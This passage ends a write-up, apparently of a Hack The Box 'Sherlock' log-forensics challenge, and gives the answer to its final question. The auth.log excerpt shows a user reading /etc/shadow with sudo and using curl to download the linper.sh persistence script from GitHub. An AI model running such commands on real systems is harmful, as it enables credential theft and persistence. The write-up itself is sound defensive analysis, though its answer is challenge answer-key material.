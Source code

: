 ```bash
Mar  6 06:37:34 ip-172-31-35-28 sshd[2667]: pam_unix(sshd:session): session opened for user cyberjunkie(uid=1002) by (uid=0)
Mar  6 06:37:34 ip-172-31-35-28 systemd-logind[411]: New session 49 of user cyberjunkie.
Mar  6 06:37:34 ip-172-31-35-28 systemd: pam_unix(systemd-user:session): session opened for user cyberjunkie(uid=1002) by (uid=0)
Mar  6 06:37:57 ip-172-31-35-28 sudo: cyberjunkie : TTY=pts/1 ; PWD=/home/cyberjunkie ; USER=root ; COMMAND=/usr/bin/cat /etc/shadow
Mar  6 06:37:57 ip-172-31-35-28 sudo: pam_unix(sudo:session): session opened for user root(uid=0) by cyberjunkie(uid=1002)
Mar  6 06:39:38 ip-172-31-35-28 sudo: cyberjunkie : TTY=pts/1 ; PWD=/home/cyberjunkie ; USER=root ; COMMAND=/usr/bin/curl https://raw.githubusercontent.com/montysecurity/linper/main/linper.sh
Mar  6 06:39:38 ip-172-31-35-28 sudo: pam_unix(sudo:session): session opened for user root(uid=0) by cyberjunkie(uid=1002)
```

The command is `/usr/bin/curl https://raw.githubusercontent.com/montysecurity/linper/main/linper.sh`.

## Conclusion

We have solved all 8 questions from this "Sherlock". I enjoyed this and I hope to see you next time!
